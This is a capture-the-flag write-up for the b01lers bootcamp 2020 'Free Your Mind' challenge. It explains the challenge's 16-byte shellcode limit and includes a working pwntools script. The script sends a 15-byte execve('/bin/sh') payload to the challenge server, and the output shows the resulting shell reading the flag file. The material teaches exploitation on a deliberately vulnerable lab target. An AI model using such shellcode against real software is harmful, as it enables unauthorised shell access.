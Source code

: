# b01lers bootcamp CTF 2020

## Free Your Mind

> 200
>
> Next up, hack the matrix again, but this time, insert your own code.
>
> `nc chal.ctf.b01lers.com 1007`
> 
> [shellcoding](shellcoding)  
> [shellcoding.c](shellcoding.c)

Tags: _pwn_ _x86-64_ _remote-shell_ _shellcode_


## Summary

Easy size restricted shellcode simulator.
 

## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

Stack canary and nothing else.  This _is_ a shellcode task.


### Read the source

```c
#include <stdio.h>
#include <unistd.h>

char shellcode[16];

int main() {
    char binsh[8] = "/bin/sh";

    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);

    printf("I'm trying to free your mind, Neo. But I can only show you the door. You're the one that has to walk through it.\n");
    read(0, shellcode, 16);

    ((void (*)()) (shellcode))();
}
```

The string `/bin/sh` is provided; without PIE it'll be easy to find and use.  The only restriction is that our shellcode must be no more than 16 bytes.

With that limitation it's worth checking if we get anything for free.

Set a breakpoint just before the shellcode call and look at the registers:

```
gef➤  b *main+147
Breakpoint 1 at 0x401229
```

Registers:

```
$rax   : 0x0
$rbx   : 0x0000000000401250  →  <__libc_csu_init+0> endbr64
$rcx   : 0x00007ffff7ed2142  →  0x5677fffff0003d48 ("H="?)
$rdx   : 0x0000000000404090  →  0x0000000a68616c62 ("blah\n"?)
$rsp   : 0x00007fffffffe330  →  0x0068732f6e69622f ("/bin/sh"?)
$rbp   : 0x00007fffffffe340  →  0x0000000000000000
$rsi   : 0x0000000000404090  →  0x0000000a68616c62 ("blah\n"?)
$rdi   : 0x0
$rip   : 0x0000000000401229  →  <main+147> call rdx
$r8    : 0x71
$r9    : 0x00007ffff7fe0d50  →   endbr64
$r10   : 0xfffffffffffff27d
$r11   : 0x246
$r12   : 0x00000000004010b0  →  <_start+0> endbr64
$r13   : 0x00007fffffffe430  →  0x0000000000000001
$r14   : 0x0
$r15   : 0x0
```

To use `execve` we must have both `$rsi` and `$rdx` set to zero.  No free rides here, both will have to be set.

With `$rax` already zero we can get by with the smaller `mov al,0x3b` instruction.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./shellcoding')
context.log_level = 'INFO'

if not args.REMOTE:
    context.log_file = 'local.log'
    p = process(binary.path)
else:
    context.log_file = 'remote.log'
    p = remote('chal.ctf.b01lers.com', 1007)

payload = asm(f'''
mov edi,{hex(binary.search(b'/bin/sh').__next__())}
xor rsi,rsi
xor rdx,rdx
mov al,0x3b
syscall
''')

log.info('payload length: ' + str(len(payload)))

p.sendafter('walk through it.\n',payload)
p.interactive()
```

Nothing much here but our space optimized (15-byte) payload.

For the curious the bytes for each instruction:

```assembly
bf b3 11 40 00       	mov edi,0x4011b3
48 31 f6             	xor rsi,rsi
48 31 d2             	xor rdx,rdx
b0 3b                	mov al,0x3b
0f 05                	syscall
```




Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/b01lersbootcampctf2020/free_your_mind/shellcoding'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to chal.ctf.b01lers.com on port 1007: Done
[*] payload length: 15
[*] Switching to interactive mode
$ id
uid=1000(shellcoding) gid=1000(shellcoding) groups=1000(shellcoding)
$ ls -l
total 36
-r-xr-x--- 1 root shellcoding    86 Oct  2 15:31 Makefile
-r--r----- 1 root shellcoding    38 Oct  2 15:31 flag.txt
-r-xr-x--- 1 root shellcoding 16912 Oct  3 04:08 shellcoding
-r-xr-x--- 1 root shellcoding   362 Oct  2 15:31 shellcoding.c
-r-xr-x--- 1 root shellcoding    51 Oct  2 15:31 wrapper.sh
$ cat flag.txt
flag{cust0m_sh3llc0d1ng_c4n_b33_c00l}
```